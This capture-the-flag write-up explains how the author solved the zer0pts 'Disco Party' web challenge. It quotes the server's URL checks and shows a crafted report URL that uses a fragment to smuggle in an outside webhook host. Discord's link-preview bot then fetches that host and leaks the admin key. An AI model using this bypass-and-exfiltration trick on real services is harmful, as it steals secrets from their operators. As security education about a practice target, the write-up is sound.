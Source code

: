# DISCO PARTY

## Description

There's maybe nothing special in description. 🤔
![Oops](./image/description.jpg)

## 💻 Explore the website

![Oops](./image/home.jpg)

There are 3 buttons here. The first two buttons seem common, so let try the last one.

I am allowed to create an invitation and to report issues about invitation.

![Oops](./image/test_web.gif)

Each invitation has a unique id.

## 🧑‍💻 Processing:
**web/app.py:** This file contains server code. There are some endpoints:

- `/post/<string(length=16):id>`: I can get an invitation through this endpoint by supplying `id` (`len(id) == 16`). Besides, I can supply a `key` and make `is_admin` take value `True` to receive the flag. Maybe my target is `key` value.

- `/api/new`: This endpoint creates post. I POST `title`, `content` and server will generate `id` for that post. Posts will be saved in database (`id`, `title`, `content`).

- `api/delete`: Deletes a post if I had `id` and `key`.

- `/api/report`: This endpoint takes my reports (`url`, `reason`, `g-recaptcha-response`). There are a lot of check stages here. After all, `message` will be saved in database. Look at the message form: 
    ```py 
    message = f"URL: {url}?key={key}\nReason: {reason}"
    ```

Because there is bot directory, maybe I need to bypass check stages and make message contain my webhook like:
```py
f'URL: http://hjvnswkt.requestrepo.com?key={key}\nReason: something'
```
Or some messages similar. And the bot will click on the URL/send request and the key will be revealed. (In an ideal scenario) 🤤 

Let's check it out.



**bot/crawler.py:** 🤖

This bot is in a secret channel and will send/chat my message which is from `/api/report` endpoint.

There is no click here 😿.

I was stuck here for a very long time. 

Then I realized every big platforms like Discord have their own bots, and they click every URL in the conversation automatically. 

*"Really? I don't believe, prove it."* 🤔 

As you wish: 🤓 

- Setup a webhook:
![Oops](./image/setup_requestrepo.jpg)

- Send a message which contains the webhook URL:


    ![Oops](./image/chat_url.jpg)

- And receive requests:
![Oops](./image/request_discord_bot.jpg)

So, my plan is craft a message that contains `http://hjvnswkt.requestrepo.com/?key={key}` to get `key`.

**Bypass:**

```py
# Check URL
parsed = urllib.parse.urlparse(url.split('?', 1)[0])
if len(parsed.query) != 0:
    return flask.jsonify({"result": "NG", "message": "Query string is not allowed"})
if f'{parsed.scheme}://{parsed.netloc}/' != flask.request.url_root:
    return flask.jsonify({"result": "NG", "message": "Invalid host"})

# Parse path
adapter = app.url_map.bind(flask.request.host)
endpoint, args = adapter.match(parsed.path)
if endpoint != "get_post" or "id" not in args:
    return flask.jsonify({"result": "NG", "message": "Invalid endpoint"})

# Check ID
if not get_redis_conn(DB_TICKET).exists(args["id"]):
    return flask.jsonify({"result": "NG", "message": "Invalid ID"})
```

The first part makes sure my host (input `url`) is equal to server host.

The second part checks path of my URL which have to have `/post/<string(length=16):id>` form and there is `id` in request.

The last part takes `id` undercontrol (exists in database).

I think about a way. I use fragment to craft because none of three parts above do anything with fragment. This is my URL: `http://party.ctf.zer0pts.com:8007/post/UCs0yCK4AJwgyQnX# http://hjvnswkt.requestrepo.com`.

The space after `#` is necessary.
![Oops](./image/space_needed.jpg)

I just send report with that URL. Get key in requestrepo.
![Oops](./image/key.jpg)

And get the flag.
![Oops](./image/flag.jpg)

**🚩Flag: `zer0pts
{4h_p4rad1s3_l05t_6b4f6fbf5ee51003}`**

## 🤓 Notes:
There are some features I can abuse (Discord, Facebook, ... bot).
